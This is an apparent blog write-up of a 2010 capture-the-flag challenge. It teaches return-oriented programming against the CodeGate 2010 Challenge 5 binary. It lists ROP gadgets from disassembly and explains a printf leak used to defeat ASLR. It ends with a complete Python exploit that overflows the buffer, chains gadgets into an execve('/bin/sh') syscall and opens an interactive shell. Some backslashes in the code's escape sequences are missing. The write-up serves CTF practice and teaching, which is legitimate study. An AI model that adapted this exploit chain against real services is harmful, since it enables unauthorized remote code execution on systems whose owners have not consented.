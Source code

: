 ```yaml
---
title: 'Return-oriented-programming practice: exploiting CodeGate 2010 Challenge 5'
author: longld
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:5:{s:5:"bitly";s:0:"";s:9:"permalink";s:108:"http://www.vnsecurity.net/2010/04/return-oriented-programming-practice-exploiting-codegate-2010-challenge-5/";s:7:"tinyurl";s:26:"http://tinyurl.com/2d6fyn4";s:4:"isgd";s:18:"http://is.gd/bOGUk";s:6:"bitly2";s:20:"http://bit.ly/dv6cNX";}'
tweetbackscheck:
  - 1408358978
twittercomments:
  - 'a:10:{i:13063031217;s:7:"retweet";i:13056900429;s:7:"retweet";i:13055737521;s:7:"retweet";i:13054395208;s:7:"retweet";i:13051541567;s:7:"retweet";i:13051162336;s:3:"304";i:13050605559;s:3:"305";i:13050192544;s:7:"retweet";i:13050161650;s:7:"retweet";i:13049686735;s:3:"306";}'
tweetcount:
  - 10
kopa_newsmixlight_total_view:
  - 2
categories:
  - 'CTF - CLGT Crew'
tags:
  - '2010'
  - CLGT
  - codegate
  - CTF
  - return-oriented-programming
  - rop
---
```

In my <a href="http://www.vnsecurity.net/2010/03/codegate-2010-online-ctf-challenge-4-5-writeup/" target="_blank">previous post</a> about CodeGate 2010 Challenge 5 exploit, I mentioned the weakness of accessing server to get *execl()* address. In this post I will show how to blindly exploit the &#8220;harder&#8221; program without access to the remote server using <a href="http://en.wikipedia.org/wiki/Return-oriented_programming" target="_blank">return-oriented-programming</a> technique.

## ROP introduction

A worth to read post about ROP introduction can be found on Zynamics blog: <a href="http://blog.zynamics.com/2010/03/12/a-gentle-introduction-to-return-oriented-programming/" target="_blank">http://blog.zynamics.com/2010/03/12/a-gentle-introduction-to-return-oriented-programming/</a>

In summary: we will use return-into-instructions (called gadgets) to build and execute our payload when controlled EIP and ESP from vulnerable program.

ROP limitations (difficulties):

*   ASLR: the same as return-into-libc, it&#8217;s difficult to locate address of instructions in library (e.g libc)
*   ASCII-armor address: with ascii-armor remapping of libraries (e.g libc), addresses will contain NULL byte so chaining return-into-libc calls and ROP is impossible if there&#8217;s NULL filter in input

## The &#8220;harder&#8221; case

Fortunately, we can blindly exploit the &#8220;harder&#8221; program using ROP because it provides some &#8220;advantages&#8221; in code:

*   *getline()*: can pass NULL byte to input
*   *printf()*: can leak runtime memory info (bypass ASLR)

## Finding ROP gadgets

Our target is to invoke **execve(&#8220;/bin/sh&#8221;, 0, 0)** syscall, which is equivalent to prepare registers&#8217; value then trigger kernel syscall:

> eax = 0xb // execve  
> ebx = address of &#8220;/bin/sh&#8221;  
> ecx = 0 // argv  
> edx = 0 // env

Searching in harder binary, we found below gadgets:

*   eax: 
    <pre>80483a4:    58                       pop    %eax
80483a5:    5b                       pop    %ebx
80483a6:    c9                       leave
80483a7:    c3                       ret</pre>

*   ebx & ecx: 
    <pre>8048634:    59                       pop    %ecx
8048635:    5b                       pop    %ebx
8048636:    c9                       leave
8048637:    c3                       ret</pre>
    
    &#8220;/bin/sh&#8221; is placed on target buffer, its address is available by leaking via *printf()*</li> </ul> 
    *   edx:  
        There&#8217;s no edx related gadget but observing that when returned from *memcpy()* edx&#8217;s value is set to esi so we can assign esi to 0&#215;0 first then return again to main to nullify edx.</p> 
        <pre>0x001ba506 :    mov    edx,esi
80485e6:    5e                       pop    %esi
80485e7:    5f                       pop    %edi
80485e8:    5d                       pop    %ebp
80485e9:    c3                       ret</pre>
    
    *   syscall:  
        In recent Linux kernel, syscall is usually performed via linux gate: **call gs:[0x10]**. By return to back to *printf()* in harder program many times, we can find the offset from *getline()* to first syscall is 319 bytes.
    
    *   moving stack:  
        After **&#8220;leave; ret&#8221;** our stack will be moved to new location pointing by ebp. We can control this by set ebp back to somewhere in the middle of target buffer.
    
    ## Exploit code
    
    <pre class="brush: python; title: ; notranslate" title="">#!/usr/bin/env python

import socket
import sys
import struct
import telnetlib

#host = 'ctf4.codegate.org'
host = '127.0.0.1'
port = 9005

c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
c.connect((host, port))

buf=""
# bypass first read
buf = c.recv(1024)

# getline() address
buf = "A"*268 + struct.pack('i', 0x08048524) + struct.pack('i', 0x0804a008) + "n"
c.send(buf)
buf = c.recv(1024)
addr = ""
getline_addr = int(buf[:4][::-1].encode('hex'), 16)
print "getline() is at:", hex(getline_addr)

# call gs:[0x10] address
offset = 319 # first offset is 319 bytes from getline()
syscall_addr = getline_addr + offset

# buffer address
buf = "%7$x" + "x00"*260 + struct.pack('i', 0x08048521)*2 + "n"
c.send(buf)
buf = c.recv(1024)
input_addr = int(buf[:8], 16)
print "Buffer address is at: ", hex(input_addr)

# gadgets address
pop_eax = 0x080483a4
pop_ecx_ebx = 0x08048634
pop_esi = 0x080485e6

# pop esi
buf = "A"*268 + struct.pack('i', pop_esi) + "x00" * 12 + struct.pack('i', 0x08048524)*2  + "n"
c.send(buf)
c.recv(1024)

# pop eax then move stack to new address
input_addr += 560 # lifting after 2 getline() calls
new_stack = input_addr+8
buf = "/bin/shx00" # /bin/sh
buf += struct.pack('i', new_stack+16) # next ebp after leave from pop_eax
buf += struct.pack('i', pop_ecx_ebx) # next is pop_ecx_ebx
buf += "x00"*4 # ecx
buf += struct.pack('i', input_addr) # ebx -&gt; /bin/sh
buf += "A"*4 # un-used ebp after leave from pop_ecx_ebx
buf += struct.pack('i', syscall_addr)
buf = buf.ljust(264, "A") # padding
buf += struct.pack('i', new_stack) # new ebp
buf += struct.pack('i', pop_eax)
buf += "x0bx00x00x00" # execve syscal
buf += "A"*4 # un-used ebx
buf += "n"

print "Sending final payload ..."
c.send(buf)
c.send("id 2&gt;&1" + "n"*5)

t = telnetlib.Telnet()
t.sock = c
t.interact()
c.close()

</pre>